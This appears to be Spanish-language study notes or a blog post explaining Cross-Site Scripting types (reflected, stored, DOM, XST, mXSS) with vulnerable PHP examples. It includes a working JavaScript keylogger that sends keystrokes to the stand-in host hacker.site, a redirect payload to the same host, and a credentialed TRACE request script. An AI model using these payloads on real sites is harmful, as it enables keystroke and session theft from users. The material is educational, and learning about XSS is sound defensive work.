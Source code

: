 ```yaml
---
title: 'Cross-Site Scripting (XSS)'
description: ''
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
---
```


### Reflected XSS (server)

Ocurre cuando la data del usuario es enviada a la aplicación web y es inmediatamente repetida de vuelta al contenido no confiable

La victima trae la carga en su request a la página vulnerable,
esta carga se inserta en la webapp y el navegador lo executa.

```php
<?php $name = @$_GET['name']; ?>

Welcome <?=$name?>
```

### Stored or Persistent XSS (server)
La carga se ejecuta en todos los usuarios que visiten la página.
El código es guardado por la app, sin sanitizar y luego rendereado.

El código malicioso puede ser injectado, por los atacantes, directamente por la webapp.

```php

<?php
$file = 'newcomers.log';
if(@$_GET['name']) {
  $current = file_get_contents($file);
  $current .= $_GET['name']."\n";
  // almacena 'newcomer'
  file_put_contents($file, $current);
}
// si admin muestra 'newcomers'
if(@$_GET['admin'] == 1) {
  echo file_get_contents($file);
}
>

```

### DOM XSS | Type-0 | Local XSS (client)

Es dado cuando JavaScript usa los datos del usuario como parte de su lógica igual que *reflected* pero sin interactuar con el lado del navegador.

```php
# Toda la información del DOM esta disponible, URL, history, cookies, etc. 

# Hay dos llaves fundamentales: SOURCES y SINKS
<h1 id='welcome'></h1>
<script>
  var w = "Welcome";
  // location.hash -> SOURCE del input desconfiable
  var name = document.location.hash.substr(
    document.location.hash.search(/#w!/i) + 3,
    document.location.hash.length
  );
  // innerHTML -> SINK donde el input es usado
  document.getElementById('welcome').innerHTML = w + name;
</script>

# Sumideros(sinks) son como puntos en la corriente de agua donde dependiendode la fuente(input del usuario) puede ser peligroso resultando en la perdida de Confidencialidad, Integridad y Disponibilidad.
```

### Universal XSS | UXSS

No aprovecha las fallas de la "App" sino de las extensiones, plugins.

### Cross-Site Tracking (XST)

<script>
  // TRACE Request
  var xmlhttp = new XMLHttpRequest()
  var url = 'http://victim.site'
  xmlhttp.withCredentials = true
  xmlhttp.open('TRACE', url)

  // Callback para registrar todas las cabezeras de la respuesta
  function hand() {
    console.log(this.getAllResponseHeaders())
  }
  xmlhttp.onreadystatechange = hand
  xmlhttp.send()
  // Si todo va bien podemos leer las cabezeras de vuelta del request'TRACE', esta tecnica es antigua y los navegadores lo bloquean
</script>

### XSS Ataques

- Recoleccion de cookies
- Desfiguraciones
- Phishing
- Keylogging
- Ataques de Red
- Auto-XXS


**Desfiguraciones**

Con este ataque se intenta dar un mensaje preciso o información engañosa a los usuarios.

*Virtul:* Si explotamos un defecto que no modifique el contenido hosteado en la web objetivo, entonces es un desfiguracion virtual. Esto pasa en XSS Reflejado

*Persistente:* En este caso la página es modificada permanentemente, el atacante no necesita engañar a los usuarios para que visiten una URL creada.

**Phishing**

URLCrazy es una herramienta de linea de comandos que genera y prueba tipos de dominios y variaciones para detectar y realizar allanamiento de tipos, URL hijacking, phishing, y espionaje.

**keylogging**

```javascript
var keys=''
document.onkeypress = function(e) {
  var get = window.event ? event : e
  var key = get.keyCode ? get.keyCode : get.charCode
  key = String.fromCharCode(key)
  keys += key
}

window.setInterval(() => {
  if (keys !== '') {
    var path = encodeURI("http://hacker.site/keylogger?k="+keys)
    new Image().src = path
    keys = ''
  }
}, 1000)

```
Algunos frameworks:

- *http_javascript_keylogger (Metasploit)*
- *Event logger:* Es mas sofisticado

****

data:text/html,<script>document.location="http://hacker.site"</script>

javascript:{this.window='<script>document.location="https://google.com"</script>'}


### mXSS

Es un vector que ocurre en el innerHTML y esta relacionado con las propiedades del DOM

```html
<!-- input -->
<p>Hi
<p/id=pID>Hi
<?Hi
<DiV/><doce///>Hi</plaintext><h1>high

<!-- Output -->
<p>Hi</p>
<p/id=pID>Hi</p>
<!-- Hi -->
<div><code>Hi<h1>high</h1></code></div>
```



